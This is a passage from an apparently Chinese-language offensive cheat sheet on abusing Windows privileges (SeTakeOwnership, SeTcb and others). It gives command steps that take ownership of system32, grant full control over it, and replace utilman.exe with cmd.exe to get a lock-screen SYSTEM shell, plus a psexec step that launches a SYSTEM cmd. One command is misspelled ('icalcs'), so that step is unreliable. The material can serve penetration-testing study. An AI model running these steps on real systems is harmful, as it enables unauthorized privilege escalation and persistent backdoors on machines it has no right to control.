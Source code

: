 .`load C:\dev\PrivEditor\x64\Release\PrivEditor.dll`

2.

`TrustExec.exe -m exec -c "whoami /priv" -f`

  

批注：两个工具都没找到QAQ

### **Abusing via SeTakeOwnership**

域：No

Local Admin: Yes

操作系统: Windows

类型: Abuse Privilege

方法:

1.  `takeown.exe /f "%windir%\system32"`
2.  `icalcs.exe "%windir%\system32" /grant "%username%":F`
3.  将cmd.exe重命名为utilman.exe
4.  锁定控制台并按Win+U

### **Abusing via SeTcb**

域：No

Local Admin: Yes

操作系统: Windows

类型: Abuse Privilege

方法:

1.

`PSBits`

Or

`PrivFu`

2.

`psexec.exe -i -s -d cmd.exe`

### **Abusing via SeTrustedCredManAccess**

域：No

Local Admin: Yes

操作系统: Windows

类型: Abuse Privilege

方法:
